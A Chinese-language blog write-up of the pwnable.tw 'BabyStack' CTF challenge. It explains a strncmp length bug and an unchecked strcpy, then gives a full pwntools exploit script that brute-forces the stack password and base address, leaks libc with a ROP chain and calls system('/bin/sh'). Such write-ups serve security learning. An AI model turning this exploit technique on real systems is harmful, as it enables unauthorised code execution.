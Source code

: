 ```yaml
---
layout: post
title: pwnable.tw BabyStack
date: 2023-10-23 19:51:17
tags: pwnable.tw
---
```


本地打通了，远程……台湾太远了……爆破到一半就会不知道谁把我连接掐掉……

![](https://blog-1308958542.cos.ap-shanghai.myqcloud.com/Snipaste_2023-10-23_20-43-43.jpg)

## 漏洞分析

本题主要有两个漏洞，一个是检查密码时，根据用户的输入的大小（strlen）作为 strncmp 的参数进行比较，然而这样会导致用户输入 NULL Byte 就通过检查，同时还允许了一字节一字节爆破得到正确的密码；甚至泄露密码后面的别的数据——在本题中就是程序基址。
另一个是一个没有检查大小的 strcpy。

## 漏洞利用

本题的流程就是先利用第一个漏洞来爆破得到栈上的密码以及 saved rbp，然后利用 strcpy 进行控制流劫持。由于 strcpy 限制 null byte 截断，所以我利用程序自己的 read wrapper 函数（CA0 处）来进行第二次写入，这次就可以写入 ROP chain。（这里调试得知 rdi 正好是栈上变量）
第一次写入 ROP chain，我泄露了 libc 的基址，让程序从 start 重头来过；第二次写入 ROP chain，我就直接执行 `system("/bin/sh")` 来拿到 shell。

```python
def pwn():
    # bruteforce password
    password = b""
    for i in range(0x10):
        for ch in range(1, 0x100):
            if ch == 0x0a:
                continue
            io.sendlineafter(b">> ", b"1")
            io.sendafter(b"passowrd", password + bytes([ch]) + b'\0')
            if b"Success" in io.recvline():
                # print(ch)
                password += bytes([ch])
                io.sendlineafter(b">> ", b"1")
                break
        if len(password) != i + 1:
            print("ERROR")
            exit()
    success("password: "+repr(password))
    # pause()

    # bruteforce saved rbp (progaddr)
    progaddr = b""
    for i in range(0x6):
        for ch in range(1, 0x100):
            if ch == 0x0a:
                continue
            io.sendafter(b">> ", b"1"*0x10)
            io.sendafter(b"passowrd", password + b'1'*0x10 + progaddr + bytes([ch]) + b'\0')
            if b"Success" in io.recvline():
                # print(ch)
                progaddr += bytes([ch])
                io.sendafter(b">> ", b"1"*0x10)
                break
        if len(progaddr) != i + 1:
            print("ERROR")
            exit()
    progaddr = unpack(progaddr+b'\0\0') - 0x1060
    success("stackaddr: "+hex(progaddr))

    my_read = 0xca0
    io.sendlineafter(b">> ", b"1")
    io.sendafter(b"passowrd", 0x10*b'\0'+0x30*b'a'+password+0x18*b'a' + pack(progaddr+my_read))
    io.sendlineafter(b">> ", b"3")
    io.sendafter(b"Copy :", b'a'*0x10)

    # pause()

    # ROP
    start = 0xb70
    pop_rdi = 0x10c3
    payload = flat([
        progaddr+pop_rdi,
        progaddr+elf.got['puts'],
        progaddr+elf.plt['puts'],
        progaddr+start,
    ])

    io.sendafter(b">> ", b"2"*0x10)
    io.send(pack(progaddr)+b'a'*0x18+payload)

    libcaddr = unpack(io.recvuntil(b"\n")[:-1]+b'\0\0') - libc.sym['puts']
    success("libcaddr: "+hex(libcaddr))

    # bruteforce password again
    io.sendlineafter(b">> ", b"1")
    password = b""
    for i in range(0x10):
        for ch in range(1, 0x100):
            if ch == 0x0a:
                continue
            io.sendlineafter(b">> ", b"1")
            io.sendafter(b"passowrd", password + bytes([ch]) + b'\0')
            if b"Success" in io.recvline():
                # print(ch)
                password += bytes([ch])
                io.sendlineafter(b">> ", b"1")
                break
        if len(password) != i + 1:
            print("ERROR")
            exit()
    success("password: "+repr(password))
    # pause()

    io.sendlineafter(b">> ", b"1")
    io.sendafter(b"passowrd", 0x10*b'\0'+0x30*b'a'+password+0x18*b'a' + pack(progaddr+my_read))
    io.sendlineafter(b">> ", b"3")
    io.sendafter(b"Copy :", b'a'*0x10)

    # pause()

    # ROP
    io.sendafter(b">> ", b"2"*0x10)
    io.send(pack(progaddr)+b'a'*0x18+pack(progaddr+pop_rdi)+pack(libcaddr+0x000000000018c177)+pack(libcaddr+libc.sym['system']))

    io.interactive()
```
